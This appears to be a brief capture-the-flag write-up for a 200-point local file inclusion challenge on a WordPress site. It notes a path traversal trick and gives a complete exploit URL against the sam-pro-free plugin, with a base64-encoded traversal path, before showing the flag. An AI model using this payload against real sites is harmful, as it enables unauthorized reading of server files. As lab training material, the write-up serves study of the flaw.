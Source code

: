 ## LFI_200p

______________________________

??? URL: http://54.201.224.15:14099/wp-includes/rss-functions.php

**```Fatal error: Call to undefined function _deprecated_file() in /var/www/html/wp-includes/rss-functions.php on line 8```**

________________________________

<p align="center"><img src="https://i.imgur.com/GxxAS50.png"/> </p>

../../var/www/blah.php => won't be enough to escape => should be /../../../../var/www/blah.php

> base64 encode it and put the completed URL => **wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Ly4uLy4uLy4uLy4uL3Zhci93d3cvYmxhaC5waHA=**

___________

**```flag{dont_include_files_derived_from_user_input_kthx_bai}```**


